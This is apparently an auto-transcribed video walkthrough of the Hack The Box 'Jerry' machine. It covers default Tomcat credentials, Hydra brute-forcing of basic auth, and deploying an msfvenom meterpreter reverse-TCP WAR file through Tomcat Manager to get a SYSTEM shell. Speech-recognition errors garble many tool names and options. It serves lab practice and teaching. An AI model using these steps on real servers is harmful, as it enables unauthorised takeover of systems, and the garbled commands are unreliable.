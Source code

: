 Run Nmap 

we see only one port is open that is port 8080 it is a HTTP service and the banner says it is running Apache Tomcat slash coyote JSP engine Tomcat is essentially just a web server that hosts Java files so let's just go check out what is listening on port 8080 into Firefox and we get this Tomcat welcome splash page so let's click these buttons on the right and just see what happens and the server status brings us to a long and prompt if we do admin/admin we get a actual allowed so we get in to service status with just admin admin and we can see generally things about Tomcat Eden survivor attended this is all Java memory space with the JVM list applications access denied so we can't go to manager HTML lists when we can generally just see information about this server service status not too helpful AJ PAPR this is a proxy for Tomcat but let's try the next app manager app we get access denied right away when trying to go to it we don't me get a login prompt Lets just push this over to burp suite refresh on this access denied refresh this page and we're sending a HTTP request but we have this authorization thing in our header and if we unbasic ste for encode this by going to the decoder tab and then decode as base64 we see its admin : admin because that's how basic HTTP authentication works it just adds this to the header so if we remove our authorization basic click forward go back to a firefox it's asking us for credentials so if we put the username as please subscribe and share my videos click ok going back over to burp suite we have the authorization basic we can copy this go over to decoder paste it in and we see we're trying to authenticate with please subscribe : and share my videos so that's how that whole thing works we just go to Firefox and clear history it should clear this so we no longer have to intercept it so it's turn intercept off click go and yes now it forgot that authorization header so the manager slash HTML page doesn't work with admin admin this whole page or access denied page is saying hey for example you need the manor - GUI role to access this page and here's code to add the user Tomcat with the pass the secret it this is actually the credentials and every now and then you come across people with like just using what the documentation says to set passwords or what the software comes with or even better when you google like how to do something in Stack Overflow you will see sometimes developers just copy and paste from Stack Overflow which includes credentials so this is definitely a very real thing looking at the host manager thing it also asks for login and admin admin doesn't work so if it wasn't default we'd or if it didn't tell us the default we have to find a way to brute-force it so I'm gonna go over to a terminal window I'm gonna pick a good word list to do this with a lot of targeted word list and the sec list wordlist github project i don't know what else to call it on cali its user share sec list and if you don't have this it is on app so just do app to install sec l is TS i believe that is the correct name let's just search for it and yep it's there if you're not on cali if you just go to github sec lists you should see it as the first result so what I'm going to do is find dot to find from the current working directory grep - I'd to do a case-insensitive search I'm just going to search for Tomcat and we find a file passwords default credentials Tomcat better default past list so I'm going to look at this and we see quite a bit of just username : password so I'm going to go over to Hydra so if we do Hydra H and Hydra just a brute force and utility that does a bunch of different protocols so Hydra - H - see the help and we guys see how to specify the username : password so we have - lowercase L for a login name uppercase L is login file lowercase P is password or uppercase P is password file we don't want these because I don't feel like making a username and password file if we go further down the list we have - capital C which is colon separated login colon pass format instead of using - L and - P so that is definitely what we want to do so let's open up button split pane and then do Hydra - capital C and then the location so users share SEC list and then let's grab this string paste this in and then the next thing we have to do is specify what we want to brute force and the very first time I did this I always just try like HTTP colon 10 10 10 95 colon 8080 / - last HTML and you're gonna get a hash cat complain at you because there's no service called HTTP you most likely mean HTTP - git or HTTP - forum - post and you could actually just do HTTP - get colon slash slash and this is going to work so we get it said admin admin worked and tomcat secret worked and while on manager HTML and i'm an admin certainly does not work host manager manager HTML manager status so manager slash HTML I'm not sure what Hydra was thinking so in that case we can go back to Hydra help and see how to set a proxy so we can do hydro proxy HTTP so let's set this variable and then we specify web burp is listening so HTTP colon slash slash 127 0 0 1 port 8080 run this again but go over into burp and our HTTP history I guess I have Google running and we did a bunch of requests there I'm not sure why that happened so we can see Hydra trying to brute force and we can see that just because the authorization is changing so if we go here go to decoder paste this in root password one go over here copy this good repeater are not repeated decoder bases in root root so we get a bunch of authorization denied so what I'm going to do is change this filter term by let's see is there take out for xx request error there we go goodbye host and we see we're left with only two that are successful and both of these two say basic and this looks like Tomcat Tom secret we give it to coda Tomcat secret so let's go back over here it's doing admin admin so let's F go - N and then base 64 and let's see we actually I do admin : admin copy this go here turner HTTP air is on search by term and I think this one's actually a pro feature to search by to him I'm not possible positive there but here's the requests that are using admin admin and we can see the response for three forbidden for three forbidden so I have no idea why Hydra is saying admin admin works there but here's the correct credentials and to backtrack a little bit the correct way to do this because this does work but I believe the better way to do this is not to specify all this because when you do this I don't know how to do arguments so if you had to do like a login form htb - PO it's not gonna be that simple so how I generally like using this is let's just delete all this you do - s to specify the port and - s I think it stands for a source port maybe I don't know but - s is port it doesn't do - P because - P is for password and then you want to specify the IP address I think is that IP address then service or service than IP I'll try IP so 10 10 10 95 HTTP - get and then after that you can specify your options like slash manager slash HTML and there we go I think this is the better way to specify it just because it's going to work for you all the time because when you do HTTP - post you put your arguments right here um if you also wanted to see everything that's going on you can do - lowercase V uppercase v and we can see what it's trying to login as so you can see the failed attempts - so let's see yeah it still thinks admin admin works there there's gonna be something silly I did there but that is slash manager slash HTML and let's clear everything so we're not saying that authorization header and then admin certainly does not work so I'm not sure what hydras thinking let's do Tomcat then s3c ret and we get access to this tomcat web application manager if you look around this page you'll notice there's a deploy option to deploy a war file you need to play one locator on a server or just brow upload one from your computer and then applications these are uploaded war files a war file is essentially just a packaged up Java code or a JSP so we can go to like examples click on P examples and click execute here and we can see this basic math JSP file click on source and we can see the source code to that showing it wasn't just printing that table it was actually doing math inside of that table if we go back to you can look at all the ones like hello world result hello rolled looking at the source code to this one you can see it doing a JSP way to do that so you know if you can upload a word get that here and then have that actually execute bad code you could potentially get a shell so the tool I know one we use to do this is MSF venom because it just all generates Metasploit payloads really easily so we can do MSM venom - h4 help and then we want to do - L payloads to list all the potential payloads we can use it's going take a few seconds to run and we'll see various payloads I want to know if it's Windows 32 or 64-bit so i keeps going down i see the OS architecture - AMD 64 which means we're dealing with a 64-bit box so i'm going to use a 64 bit payload and I'm just gonna do Windows x64 meterpreter or is reverse tcp if you see the matura underscore reverse tcp that means it's a I think it's called stage list source you always get stage lists in stage make stop and contains all of motor Peter so this payload is going to be a little bit bigger if it's just meterpreter slash then it's a stage payload which means it's just a small stub that you give the server and the server calls back to you and you give it the rest of the code the benefit to that is your payloads are much smaller so if you're doing like buffer overflows they can fit in more places the downside to that is it's a lot easier to make signatures for that type of activity because in order to do that we just downloading code off the web server then executing it chances are you're creating like a read write execute memory space on your box and that doesn't happen that often normally happens when people are doing bad things so if antivirus looks at that it'll see that this is actually hard to read so I'm just going to know the payload will do - be Windows x64 meterpreter reverse underscore TCP and the other thing we need is a format we need to know how to get it to run generate a war file so I'll do - L and then the other things I can do with - L is payloads and kodos nops platforms rx formats so we'll do formats and see where the word is it is right here and if we keep going up we'll see framework executable format so - - format war will generate this a war file so let's try this let's do msi venom - P and then the payload we want which is Windows x64 meterpreter verse TCP we have to specify the variables so LHOST and Lport is going to be 9001 this is just telling the payload where to call back - f4 format we want 4 then - Oh out file would do please subscribe or generate this and we see we do have the file created if we change this to be meterpreter underscore reverse TCP and do please subscribe to dot war we'll see how big this file is and compare these staged and staged list payloads so we see let's just put this in more human readable so one is 4 kilobytes the other is a hundred and twelve kilobytes because again when you do that underscore not the slash you're doing all of meterpreter with just the slash you're just saying hey go here and download so this is much smaller than this before we can upload this though we have to have a way to catch the shell and send it meterpreter so we're going to use MSF DB space run a lot of people start Metasploit with just MSF console but MSF DB space run will start the database and then start Metasploit for you and I'm not sure what persistent cameras are nope so nothing so um yeah so I always just use MSF DB space run so I want to do like service Postgres start them MSF console because if you have the database running everything searches super fast so you can just do search exploit and I guess my cache is built so it returns within a few seconds but I didn't have the database running it may take a good 30 45 seconds for that to run so in order to set up the handler to catch this we want to do use what is it it's multi hammer I forget what's before it search multi hammer is it exploit multi handler yep so use exploit multi hammer then set payload we want Windows x64 meterpreter reverse tcp because that's the war file we're going to use set L host to ton zero this is gonna be what we're listening on always just do it twice because sometimes when you set L host it doesn't actually set and I found doing it twice makes it work a little bit more often then set out port 9001 exploit - J to run this and then send handlers meterpreter sessions to the background so now we have a war file that we can upload and we also have Metasploit listening so when we execute that war file we'll get a shell back so let's go back over to Tomcat and we're going to upload a file and then see if we get a shell click browse go to root htb boxes Jerry please subscribe click deploy and then do we have a show yet nope let's go click on a please subscribe application please subscribe is not available 404 refresh don't get a shell let's just go look at one thing make their temp CD tab unzip stop that slash please subscribe dot war and we want to go to this JSP I'm not sure if emissive mmm said it or anything but essentially war files are just zips so I can unzip the work get the contents of the file and I'm going to specify it manually it must be a better way to do this because I don't expect them to force you to do this every time but we keep this JSP we don't get 404 and we can go over here and we see meterpreter session 1 has been opened so if we do sessions - i to interact 1 we're here and we can do help and look at it is there like sis info here system commands execute we can do like get you idea to get what we're running as so get UID well ND authority system so we're already on this box we can go to shell users administrator desktop and then go into flags and we can get birthday user and root flag here so that's essentially how to do the Box the easy 
